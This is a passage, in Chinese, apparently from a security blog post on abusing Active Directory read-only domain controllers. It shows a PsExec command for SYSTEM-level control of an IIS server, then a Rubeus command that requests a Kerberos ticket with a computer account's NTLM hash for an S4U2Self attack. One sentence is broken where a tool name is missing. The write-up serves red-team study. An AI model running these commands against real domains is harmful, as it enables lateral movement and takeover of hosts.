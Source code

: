 （2）此时，可以使用 PsExec 获取 WIN-IISSERVER 服务器控制权限：

```powershell
PsExec.exe \\win-iisserver.corp.local -i -s cmd
```

![image-20231123152011499](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123152011499.png)

## S4U2Self

除了伪造 Silver Tickets 以外，在获取计算机账户的凭据后，还可以通过滥用 S4U2Self 来获得对该主机的控制权限。这里我们通过。项目进行演示。

（1）首先使用 WIN-IISSERVER 的哈希为其请求 TGT：

```
Rubeus.exe asktgt /user:WIN-IISSERVER$ /rc4:db5c5213ddf59e59f7f625ce2910fc71
```
